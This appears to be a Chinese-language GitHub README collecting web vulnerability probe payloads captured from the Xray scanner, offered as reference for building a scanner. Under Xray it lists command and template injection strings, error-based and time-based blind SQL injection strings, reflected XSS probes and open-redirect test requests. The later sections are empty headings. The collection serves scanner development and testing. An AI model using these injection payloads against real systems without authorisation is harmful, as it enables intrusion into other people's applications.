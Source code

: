 # WEB 漏扫 payload 收集

从热门扫描器的请求流量中收集漏洞探测 payload ，作为自研漏洞扫描参考，payload 中的无规律字符和均为 payload 随机生成

漏洞检测基本原则：
- 随机性
- 兼容性
- 确定性
- 稳定性

## Xray 篇

### 命令/代码注入
```
form=submit\nexpr 967956968 + 870986373
form=submit|expr 975557975 + 826881873 
form=submit$(expr 862697460 + 985788997)
form=submit&set /A 826928544+894328131
form=${@var_dump(md5(479761091))};
form='-var_dump(md5(610751663))-'
form=/*1*/{{896160391+947073433}}
form=${868268572+852296119}
form=${(885971328+918689280)?c}
form=#set($c=816805615+870887710)${c}$c
form=<%- 980656021+824491715 %>
```

### SQL 注入

#### 回显

```
form=submit'and/**/extractvalue(1,concat(char(126),md5(1801244667)))and'
form=submit"and/**/extractvalue(1,concat(char(126),md5(1262626756)))and"
target=extractvalue(1,concat(char(126),md5(1139440625)))
```

#### 盲注

```
form=submit'and(select'1'from/**/cast(md5(1776912497)as/**/int))>'0
form=submit/**/and/**/cast(md5('1500755628')as/**/int)>0
target=convert(int,sys.fn_sqlvarbasetostr(HashBytes('MD5','1321453846')))
form=submit'and/**/convert(int,sys.fn_sqlvarbasetostr(HashBytes('MD5','1497551299')))>'0
form=submit鎈'"\(
form=submit'"\(
form=submit'and'm'='m
form=submit'and'p'='f
form=submit"and"c"="c
form=submit"and"c"="g

form=submit'and(select*from(select+sleep(0))a/**/union/**/select+1)='
form=submit'and(select*from(select+sleep(2))a/**/union/**/select+1)='
form=submit"and(select*from(select+sleep(0))a/**/union/**/select+1)="
form=submit"and(select*from(select+sleep(2))a/**/union/**/select+1)="
form=submit'/**/and(select'1'from/**/pg_sleep(0))>'0
form=submit'/**/and(select'1'from/**/pg_sleep(2))>'0
form=submit'and(select+1)>0waitfor/**/delay'0:0:0
form=submit'and(select+1)>0waitfor/**/delay'0:0:2
form=submit'/**/and/**/DBMS_PIPE.RECEIVE_MESSAGE('k',0)='k
form=submit'/**/and/**/DBMS_PIPE.RECEIVE_MESSAGE('k',2)='k
```

### XSS
xray 的 xss payload会根据输出点上下文做相应的检测， DOM 型 xss 仅企业版支持，无法获取测试 payload。
#### 反射型
```
# 输出点在 <script> 中
form=%27-mvhqgcrz-%27
form=%3C%2FScRiPt%3E%3Cvftwqvrtvc%3E

# 输出点在普通 DOM 节点下
form=%3Cxckjeiptrr%3E
%3CsCrIpT%3Exckjeiptrr%3C%2FsCrIpT%3E
```

### 任意跳转检测

```
GET //127.0.0.1.yg1d.com
GET /redirect.php?url=http://127.0.0.1.eukh.com#@127.0.0.1/aaa
GET /redirect.php?url=//127.0.0.1.eukh.com#@127.0.0.1/aaa
GET /redirect.php?url=http:127.0.0.1.nnv9.com#@127.0.0.1/aaa
GET /redirect.php?url=3ekv.com
GET /redirect.php?url=https:16843009
```

### 路径穿越检测

### XML 注入

### SSRF 

## AWVS 篇
